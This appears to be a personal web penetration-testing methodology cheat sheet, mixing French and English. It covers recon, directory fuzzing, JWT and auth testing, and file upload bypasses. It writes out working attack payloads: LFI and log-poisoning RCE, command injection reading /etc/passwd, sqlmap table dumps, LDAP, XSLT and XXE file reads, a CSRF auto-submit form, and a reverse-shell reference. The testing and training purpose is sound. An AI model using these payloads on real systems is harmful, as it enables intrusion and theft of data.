 # Tools
- Javascript deobfuscator/beautifier
- cURL (client http en CLI)
- Burp Suit (HTTP proxy, scanner) + extensions CEO (SQLmap) et JSON web token attacker (JOSEPH)
- dirb/wfuzz (website directory discover)
- SecLists (https://github.com/danielmiessler/SecLists)

# Methodology
## OSINT/Recon 
- ping www.site.com ; whois 'www.site.com' ; whois 192.168.1.1
- google dorks : search for credentials :"intext:<thetarget> AND intext:@gmail.com AND intext:password" ; theharvester    
- DNS : check DNS records : dig domain.com ANY
zone transfert test AXFR
VHOSTS ? -> HTTP header Host or /etc/hosts to access potential VHOST 
- Subdomains enum : $ amass enum -passive -d domain.com -src 
- Scan rÃ©seau : $ nmap -p- sV site.com // -A version detection -oA fichier_out
CVE ?

## Client source code
infos(CMS version)/file disclosure(.js files)/unsafe cross-domain include

## Server config
Information gathering & vuln identifier: 
https://github.com/codingo/Reconnoitre 

URL: 
- dirb+wfuzz w/ SecLists (raft-medium-files.txt & raft-large-files.txt) : unprotected refs [/admin/, robots.txt, sitemap.xml]
- Fichiers de sauvegarde/dev/ [index.php~, /.git/, index.php.bak, index.php.old, .phps, .swp...]
- Full Path Disclosure [/index.php?file[]=1   (array include bug 'can't include an array'), https://www.owasp.org/index.php/Full_Path_Disclosure]
- Redirections [curl -v] 

REQUESTS:
- Test all headers 
- Test all methods (TRACE, PUT, DELETE, OPTIONS)
- Verb tampering (.htacces -> request w/ custom method $ curl -X YOLO)

- Fonctions PHP dangereuses, evaluation de code (preg_replace()+e modifier, assert(), include()...)
- PHP type juggling (loose comparison, strcmp(array()), magic hashes)
- Packages vulnerables ex:phpbb [www.exemple.com/phpbb/install/...]

## Authentication

- Authentication (Cookies, JWT, etc...)
[JWT attacks : Burp Extension : None algorithm header change, signature algorithm bypass, bruteforce]
- Cloisonnement users ? privesc ? lateral move ? -> Burp AuthMatrix
- CSRF ? [is the auth cookie-based ? is there an unpredictable element checked on the server-side for each request ?]

## Injections & inputs sanitizing

### SERVER SIDE:
- Check PayloadAllTheThings ( https://github.com/swisskyrepo/PayloadsAllTheThings )
**File inclusion**  
LFI [?f=../../etc/passwd, wrappers(voir PDF wrappers-filters): ?inc=php://filter/read=convert.base64-encode/resource=, ]
 + double encoding
 LFI to RCE : try PHP code injection from Apache logs : Request GET /<?php phpinfo(); ?> then include the /var/log/apache2/access.log file
 CHECK LFI TO RCE PayloadAllTheThings
 RFI : base64, view_source()...
test : passer des arrays en arguments, certaines fonctions PHP plantent (ex strcmp(), include(), etc.)
 Ã‰chappement : CRLF[%0A], NULL BYTE[%00], Php truncation [a/../admin.html/./.[x4096]././././] 
 
**Path traversal**  
[DotDotPwn]

**SQL injection**  
[authentification(classic,gbk=å‘µ' or 1=1 #, \xbf\x27), string(identify columns number with ' UNION SELECT NULL,NULL,NULL, numÃ©rique, SQLmap]
SQLi method : 
	If format like "id=1" -> integer-based injection
	If format like "username=toto" -> string-based injection

	1 - Target the field of the request
	2 - Find if it is string-based or integer-based
	3 - Try to trigger an error
	4 - Try to fallback on the default payload by modifying it 

[sqlmap -u "http://testsite.com/login.php" --dbs]
[sqlmap -u "http://lesite.com/index.php" --data "username=login&password=pass" -D site_db --tables]
[sqlmap -u "http://lesite.com/index.php" --data "username=login&password=pass" -D site_db -T users --dump] 
order by : nombre de colonnes
Error based : convert(), file_name()...

**Command injection**  
[original_cmd_by_server; ls
original_cmd_by_server && ls
original_cmd_by_server | ls
original_cmd_by_server || ls    Only if the first cmd fail
Command execution inside a command :
original_cmd_by_server `cat /etc/passwd`
original_cmd_by_server $(cat /etc/passwd)]

**XPATH injection**   


**Template injection**  
${2*2} (server-side,voir PDF)

**LDAP injection**  
(&(uid=*))(userPassword=*)(&))

**XSLT code execution**  
exemple :  
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">  
<xsl:template match="/">  
<xsl:value-of select="php:function('file_get_contents','index.php')"/>  
<xsl:value-of select="php:function('opendir','/directory/')"/>  
<xsl:value-of select="php:function('chdir','/directory/')"/>  
<xsl:value-of select="php:function('readdir')"/>  
</xsl:template>  
</xsl:stylesheet>  


**XXE (XML External Entity)**  
exemple dans un flux rss :  
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE foo [  
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/challenge/web-serveur/ch29/index.php" >  
]>  
<rss version="2.0">  
    <channel>  
        <title>Mon site</title>  
        <description>Ceci est un exemple de flux RSS 2.0</description>  
        <lastBuildDate>Sat, 07 Sep 2002 00:00:01 GMT</lastBuildDate>  
        <link>http://www.example.org</link>  
        <item>  
            <title>&xxe;</title>  
            <description>Ceci est ma premiÃ¨re actualitÃ©</description>  
            <pubDate>Sat, 07 Sep 2002 00:00:01 GMT</pubDate>  
            <link>http://www.example.org/actu1</link>  
        </item>  
        <item>  
            <title>ActualitÃ© NÂ°2</title>  
            <description>Ceci est ma seconde actualitÃ©</description>  
            <pubDate>Sat, 07 Sep 2002 00:00:01 GMT</pubDate>  
            <link>http://www.example.org/actu2</link>  
        </item>  
    </channel>  
</rss>  

**GraphQL injection**  
- query={__schema{types{name,fields{name}}}} to enumerate 

**FILE UPLOAD**  
- Send an EICAR file (for audits)
- PUT method
- Double extension [.php.jpg]
- Type MIME modification : change Content-Type : "application/x-php" to "image/gif", "image/png", "image/jpeg"
- Null byte  
.php%00.jpg
.php\x00.jpg
- Magic bytes file signature(ex : add GIF89a in the beginning of the file for .gif)
- zip + lien symbolique (zip --symlinks test.zip lien, avec ln -s /etc/passwd lien)

### CLIENT SIDE:
**XSS**  
[document.write(unescape()), document.write(String.fromCharCode(unicode))]

**CSRF**  
3 regles :
1. L'attaquant a une raison de provoquer l'atq
2. Authentification repose uniquement sur des cookies de session
3. Pas d'element impredictible dans la requete
-> Generate CSRF PoC Burp
exemple de form : ( <form name="test" method="post"
action="http://sitevuln.fr/profiles/?action=profile">
<input type="checkbox" name="admin" checked >
</form>
<script>document.test.submit()</script>)


## Encryption protocols & ciphers
- testssl.sh : weak ciphersuites/protocols ?

## NETWORK =

- Transfert de zone DNS si misconfig [dig @SERVEURDNS -p *port* AXFR *domaine*]
- LDAP null bind [ldapsearch -x -h *le.server.ldap* -p *port* -s base -b '' "(objectClass=*)" "*" +]

# Exploitation

- Reverse shell : pentestmonkey php reverse shell
